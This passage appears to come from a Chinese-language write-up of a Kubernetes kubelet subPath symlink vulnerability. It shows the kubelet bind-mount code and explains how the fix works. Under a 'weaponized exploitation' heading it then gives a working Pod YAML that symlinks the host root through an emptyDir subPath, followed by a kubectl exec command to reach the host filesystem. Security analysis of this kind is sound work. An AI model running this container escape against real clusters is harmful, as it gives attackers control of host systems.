 ````go
	options := []string{"bind"}
	mountFlags := []string{"--no-canonicalize"}
	klog.V(5).Infof("bind mounting %q at %q", mountSource, bindPathTarget)
    // 绑定挂载subPath到Pod内
	if err = mounter.MountSensitiveWithoutSystemdWithMountFlags(mountSource, bindPathTarget, "" /*fstype*/, options, nil /* sensitiveOptions */, mountFlags); err != nil {
		return "", fmt.Errorf("error mounting %s: %s", subpath.Path, err)
	}
	success = true

	klog.V(3).Infof("Bound SubPath %s into %s", subpath.Path, bindPathTarget)
	return bindPathTarget, nil
}

````

1. 修复方案中，会首先对subPath解析符号链接；
2. 对解析符号链接过的subPath会使用openat()系统调用依次打开每一个路径段（即路径被分割符/分开的各部分），在这个过程中禁用符号链接，确保当前路径位于在volume内部；
3. 将/proc/\<kubelet pid>/fd/\<final fd>绑定挂载到Kubelet的Pod目录下的一个子目录。该文件是指向打开文件的链接。如果源文件在被Kubelet打开的时候被替换，那么链接依然指向原始文件；
4. 将最终的挂载路径fd传入k8s进行挂载。

### 武器化利用

````yaml
apiVersion: v1
kind: Pod
metadata:
  name: my-pod
spec:
  initContainers:
  - name: prep-symlink
    image: ubuntu
    command: ["bin/sh", "-ec", "ln -s / /mnt/data/testpath"]
    volumeMounts:
    - name: my-volume
      mountPath: /mnt/data
  containers:
  - name: my-container
    image: ubuntu
    command: ["/bin/sh", "-ec", "ls /mnt/data; sleep 999999"]
    volumeMounts:
    - mountPath: /mnt/data
      name: my-volume
      subPath: testpath
  volumes:
  - name: my-volume
    emptyDir: {}
````

创建该容器后，主机的根目录已经被挂载进容器的/mnt/data目录，使用`kubectl exec -it my-pod -- /bin/sh`即可访问